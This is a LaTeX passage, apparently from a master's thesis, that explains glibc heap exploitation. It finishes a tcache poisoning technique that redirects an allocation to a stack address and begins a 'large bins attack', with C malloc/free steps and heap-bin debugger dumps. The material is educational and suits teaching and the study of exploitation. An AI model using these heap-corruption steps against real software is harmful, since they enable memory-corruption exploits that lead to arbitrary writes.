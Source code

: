 \documentclass{masterthesis}
\newcommand*\tch{tcache}
\newcommand*\ub{unsorted bins}
\newcommand*\lb{large bins}
\begin{document}
\begin{lstlisting}[frame=tlrb]
Tcachebins[idx=7, size=0x90] count=2  Chunk(addr=0x555555559330, size=0x90, flags=PREV_INUSE)  Chunk(addr=0x7fffffffde68, size=0x7ffff7fc7fc8, flags=)  Chunk(addr=0x555555555410, size=0x9066c3c9fffffcc0, flags=NON_MAIN_ARENA)  [Corrupted chunk at 0x8d4c5741fa1e0ff3]
\end{lstlisting}

Now, as you can see in the final layout of \tch{} , the previous chunk is not valid anymore , it is a controller located in the stack:
\begin{lstlisting}[language=c,frame=tlrb]
[ 0x555555559330 -> 0x7fffffffdee8 ]
\end{lstlisting}
In the final step with one allocation , we can remove top chunk from the \tch{} , so , the next allocation return our controller location (the size must be the same): 
\begin{lstlisting}[language=c,frame=tlrb]
malloc(128)
intptr_t *c = malloc(128);
\end{lstlisting}

\section{\lb{} Attack}
As the name suggests, this attack is about the \lb{}. The goal is to force a \lb{} to write data in a controlled location.
\begin{lstlisting}[language=c,frame=tlrb]
size_t target = 0;
size_t *p1 = malloc(0x428);
size_t *g1 = malloc(0x18);
size_t *p2 = malloc(0x418);
size_t *g2 = malloc(0x18);
\end{lstlisting}
The first step is to define the target, also, we need to define two chunks in the range size of \lb{}, moreover, we need to define two chunks between them to prevent them from merging or the top chunk. 
\begin{lstlisting}[language=c,frame=tlrb]
free(p1);
size_t *g3 = malloc(0x438);
\end{lstlisting}
In the second step, we free the biggest chunk, however, the freed chunk is not in the \lb{} yet. As we discussed, the freed chunk was added to \ub{} at first, so, The best way to move it into the \lb{} is to allocate a new bigger chunk. In this way, the heap manager checks the chunk inside the \ub{}, then adds them into the corresponding bins (Like other attacks).
\begin{lstlisting}[language=c,frame=tlrb]
free(p2);
\end{lstlisting}
In the third step, we freed the smaller chunk. Now we have one chunk inside the \lb{} and one chunk in the \ub{}.
\begin{lstlisting}[language=c,frame=tlrb]
[+] unsorted_bins[0]: fw=0x5555555596e0, bk=0x5555555596e0
  Chunk(addr=0x5555555596f0, size=0x420, flags=PREV_INUSE)

[+] large_bins[63]: fw=0x555555559290, bk=0x555555559290
  Chunk(addr=0x5555555592a0, size=0x430, flags=PREV_INUSE)
\end{lstlisting}
\end{document}
